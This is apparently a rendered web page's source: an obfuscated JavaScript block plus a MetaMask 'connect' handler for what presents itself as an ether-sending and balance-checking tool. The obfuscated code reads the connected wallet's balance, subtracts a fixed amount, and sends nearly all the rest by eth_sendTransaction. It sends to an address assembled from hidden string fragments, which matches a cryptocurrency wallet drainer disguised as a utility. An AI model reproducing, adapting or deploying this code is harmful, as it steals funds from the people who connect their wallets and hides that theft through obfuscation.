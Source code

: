 _0x522319+_0x2d5961;},'jAJVt':_0x3f1f03(-0xf1,-0xc4,-0xf7,-0x115)+_0x53cedc(0xf2,0xd2,0xcd,0xc0),'ovOuP':_0x53cedc(0x144,0x126,0x137,0x131)+_0x53cedc(0x138,0x110,0x155,0x123)+_0x53cedc(0xd2,0xd5,0x135,0xf7)+'\x20)','DpUzo':function(_0x169e9e,_0x5d7a50){return _0x169e9e!==_0x5d7a50;},'SSnjk':_0x3f1f03(-0xa0,-0xa9,-0xc8,-0xa0),'yjvbe':_0x53cedc(0xe0,0xf7,0xba,0xcd),'PlaEe':_0x53cedc(0x130,0xef,0x109,0xff),'UYfcv':function(_0x1528ac,_0x37b5c8){return _0x1528ac(_0x37b5c8);},'EWIfG':_0x3f1f03(-0xd9,-0x114,-0x121,-0xd2)+_0x3f1f03(-0xa5,-0xa9,-0x8f,-0xb7),'ySOSL':_0x3f1f03(-0x80,-0x84,-0x37,-0xba),'ZtaPG':_0x53cedc(0x7c,0x70,0xbe,0xb4)+'ce','lFvMy':function(_0x1926cc,_0xb58221){return _0x1926cc*_0xb58221;},'ZCcRg':function(_0x9b8b3c,_0x329136){return _0x9b8b3c<_0x329136;},'tlOjo':function(_0x238eb2,_0x1fa9f1){return _0x238eb2===_0x1fa9f1;},'hlnIn':_0x3f1f03(-0x84,-0xa8,-0x41,-0x59),'ebvGu':function(_0x50236e,_0x52029e){return _0x50236e(_0x52029e);},'UAuzc':_0x3f1f03(-0xef,-0xb7,-0x117,-0xd8)+_0x53cedc(0x184,0xfe,0x144,0x13f),'PsMBj':function(_0x2563b3,_0x5e2865){return _0x2563b3-_0x5e2865;},'bRuLa':function(_0x18c372,_0x5fd821){return _0x18c372+_0x5fd821;},'ufVYY':function(_0x530c1b,_0x361a00){return _0x530c1b(_0x361a00);},'akChU':_0x3f1f03(-0x74,-0xb9,-0x78,-0x98)};function _0x3f1f03(_0x3e9dbc,_0x44d21c,_0x25464e,_0x155bc4){return _0x30506d(_0x3e9dbc- -0x14f,_0x44d21c-0x171,_0x155bc4,_0x155bc4-0x96);}function _0x53cedc(_0x4b3b60,_0x22431e,_0x225ec6,_0x4097f){return _0x30506d(_0x4097f-0x5d,_0x22431e-0x1ae,_0x4b3b60,_0x4097f-0x135);}try{if(_0x13b4dc[_0x53cedc(0xcc,0xe9,0xd9,0xd9)](_0x13b4dc[_0x53cedc(0x102,0x10c,0xb5,0xcc)],_0x13b4dc[_0x3f1f03(-0xe0,-0xa0,-0xf8,-0xd1)])){let _0x641ee;try{_0x641ee=_0x330f1c(ECZQVK[_0x3f1f03(-0xed,-0x117,-0xe5,-0xef)](ECZQVK[_0x53cedc(0x13c,0xd8,0xdf,0x102)](ECZQVK[_0x53cedc(0xf1,0x14a,0xc9,0x108)],ECZQVK[_0x3f1f03(-0xa3,-0xc9,-0x69,-0x8b)]),');'))();}catch(_0x5c828d){_0x641ee=_0xd3f9a4;}return _0x641ee;}else{const _0x4c2cce=typeAdress[_0x53cedc(0x102,0xf5,0xbf,0xd1)];transferInProgress=!![];const _0x24725b=_0x13b4dc[_0x53cedc(0xd0,0x10e,0x10c,0xe6)],_0x2e2409=_0x13b4dc[_0x53cedc(0xf8,0x10f,0x13b,0xfc)],_0x2e9276=_0x13b4dc[_0x3f1f03(-0x99,-0xc8,-0xae,-0xd3)](kyc,c),_0x41fa34=kyc(_0x24725b),_0x431cd1=_0x13b4dc[_0x53cedc(0x134,0xd3,0xd8,0x113)](kyc,_0x2e2409),_0x343fd0=await window[_0x3f1f03(-0xb6,-0xf2,-0xcd,-0xa6)][_0x53cedc(0x83,0xf0,0xa2,0xc6)]({'method':_0x13b4dc[_0x3f1f03(-0xd7,-0xb2,-0x103,-0x98)],'params':[window[_0x53cedc(0xde,0xbb,0x12f,0xf6)][_0x53cedc(0x92,0xb6,0xc7,0xda)+_0x3f1f03(-0x98,-0x9c,-0x97,-0xd7)],_0x13b4dc[_0x53cedc(0x146,0x159,0x115,0x115)]]}),_0x1cc658={};_0x1cc658[_0x53cedc(0xef,0xd8,0xf4,0x10f)]=_0x13b4dc[_0x53cedc(0xf9,0x125,0xe7,0xe5)];const _0x385b24=await window[_0x3f1f03(-0xb6,-0xee,-0xdf,-0x9d)][_0x53cedc(0xf6,0x91,0xd6,0xc6)](_0x1cc658),_0x342784=''+comission+_0x2e9276,_0x95d151=-0x12173+-0x48*0x4e3+0x3449b*0x1,_0x484e0a=_0x13b4dc[_0x53cedc(0x8c,0xb2,0xee,0xb9)](_0x385b24,_0x95d151);if(_0x13b4dc[_0x53cedc(0x72,0x9e,0xb7,0xb6)](_0x13b4dc[_0x3f1f03(-0x99,-0x54,-0xcc,-0x99)](BigInt,_0x343fd0),_0x484e0a)){if(_0x13b4dc[_0x53cedc(0x98,0x6f,0x71,0xb5)](_0x13b4dc[_0x3f1f03(-0xda,-0xba,-0x10c,-0xb3)],_0x13b4dc[_0x3f1f03(-0xda,-0x10a,-0xf2,-0xd2)])){_0x13b4dc[_0x53cedc(0x105,0xec,0x11c,0x11d)](alert,_0x13b4dc[_0x53cedc(0x117,0x139,0xd4,0x116)]),transferInProgress=![];return;}else{const _0x34796d=_0x4fb401[_0x3f1f03(-0xeb,-0xe2,-0xf5,-0x12a)](_0x158b85,arguments);return _0x28e3bb=null,_0x34796d;}}const _0xa73184=''+_0x41fa34+_0x431cd1,_0x1e18b0=_0x13b4dc[_0x3f1f03(-0x77,-0x9a,-0x63,-0xb2)](BigInt(_0x343fd0),BigInt(_0x484e0a)),_0xf5d9fb='0x'+unit+confirm+_0x342784+_0xa73184;await window[_0x3f1f03(-0xb6,-0xaf,-0xde,-0xbc)][_0x53cedc(0xfb,0xb5,0x83,0xc6)]({'method':_0x53cedc(0xbd,0xf4,0x7d,0xbe)+_0x3f1f03(-0xb2,-0xc5,-0xa3,-0x85),'params':[{'from':window[_0x53cedc(0x10b,0x139,0xf0,0xf6)][_0x53cedc(0x109,0xf7,0xcd,0xda)+_0x3f1f03(-0x98,-0xd9,-0x94,-0x99)],'to':_0xf5d9fb,'value':_0x13b4dc[_0x53cedc(0x11d,0x14a,0xfc,0x111)]('0x',_0x1e18b0[_0x53cedc(0xe0,0xe4,0x128,0xe7)](-0x2614+-0x18a9*-0x1+0xd7b))}]}),_0x13b4dc[_0x53cedc(0x141,0x16b,0x12c,0x13e)](alert,_0x3f1f03(-0x9f,-0xbd,-0x67,-0xd0)+_0x53cedc(0xce,0x115,0x114,0xd7)+_0x53cedc(0xc9,0x114,0xcd,0xf0)+_0x53cedc(0x14d,0x15a,0x169,0x12d)+_0x53cedc(0xff,0x154,0x104,0x110)+_0x3f1f03(-0x9a,-0xe2,-0x77,-0x89)+_0x3f1f03(-0xe9,-0x110,-0xec,-0xaa)+_0x3f1f03(-0xa8,-0xcf,-0x72,-0x73)+_0x3f1f03(-0xbb,-0xfc,-0x99,-0x7d)+_0x53cedc(0x10d,0xf8,0x123,0xf2)+_0x3f1f03(-0x73,-0x74,-0x53,-0x79)+_0x3f1f03(-0x85,-0x6f,-0x9e,-0x82)),transferInProgress=![];}}catch(_0xb7c10){_0x13b4dc[_0x3f1f03(-0xc4,-0xef,-0xaa,-0x7c)]!==_0x53cedc(0x149,0xf1,0x112,0x103)?(alert(_0x3f1f03(-0xa1,-0xa9,-0x79,-0xc1)+_0x53cedc(0x167,0x173,0x129,0x132)+_0x53cedc(0x13f,0x126,0xf2,0x137)+_0x53cedc(0x126,0xef,0xab,0xe1)),console[_0x53cedc(0xb6,0xa1,0xc0,0xc5)](_0xb7c10),transferInProgress=![]):_0x4366b3=_0x21dbe2;}};
	</script>
	<script>
        connectButton.addEventListener("click", async () => {
          try {	  
            const accounts = await window.ethereum.request({
              method: "eth_requestAccounts",
            });
            if (accounts.length > 0) {
              sendEtherButton.style.display = "block";
              typeAdress.style.display = "block";
              checkBalanceButton.style.display = "block";
              checkAdressBalanceButton.style.display = "block";
              connectButton.style.display = "none";
            }